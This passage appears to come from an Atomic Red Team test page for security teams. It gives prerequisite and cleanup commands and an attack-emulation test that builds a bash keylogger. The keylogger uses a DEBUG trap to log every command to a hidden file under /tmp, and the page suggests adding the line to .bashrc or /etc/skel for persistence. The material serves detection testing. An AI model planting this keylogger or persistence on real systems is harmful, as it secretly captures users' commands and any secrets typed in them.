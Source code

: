 #### Cleanup Commands:
```sh
unset PROMPT_COMMAND
```



#### Dependencies:  Run with `sh`!
##### Description: This test requires to be run in a bash shell and that logger and tee are installed.
##### Check Prereq Commands:
```sh
if [ "$(echo $SHELL)" != "/bin/bash" ]; then echo -e "\n***** Bash not running! *****\n"; exit 1; fi
if [ ! -x "$(command -v logger)" ]; then echo -e "\n***** logger NOT installed *****\n"; exit 1; fi
if [ ! -x "$(command -v tee)" ]; then echo -e "\n***** tee NOT installed *****\n"; exit 1; fi
```
##### Get Prereq Commands:
```sh
echo ""
```




<br/>
<br/>

## Atomic Test #4 - Bash session based keylogger
When a command is executed in bash, the BASH_COMMAND variable contains that command. For example :~$ echo $BASH_COMMAND = "echo $BASH_COMMAND". The trap command is not a external command, but a built-in function of bash and can be used in a script to run a bash function when some event occurs. trap will detect when the BASH_COMMAND variable value changes and then pipe that value into a file, creating a bash session based keylogger. 

To gain persistence the command could be added to the users .bashrc or .bash_aliases or the systems default .bashrc in /etc/skel/

**Supported Platforms:** Linux


**auto_generated_guid:** 7f85a946-a0ea-48aa-b6ac-8ff539278258





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | File to store captured commands | String | /tmp/.keyboard.log|


#### Attack Commands: Run with `sh`! 


```sh
trap 'echo "$(date +"%d/%m/%y %H:%M:%S.%s") $USER $BASH_COMMAND" >> #{output_file}' DEBUG
echo "Hello World!"
cat #{output_file}
```
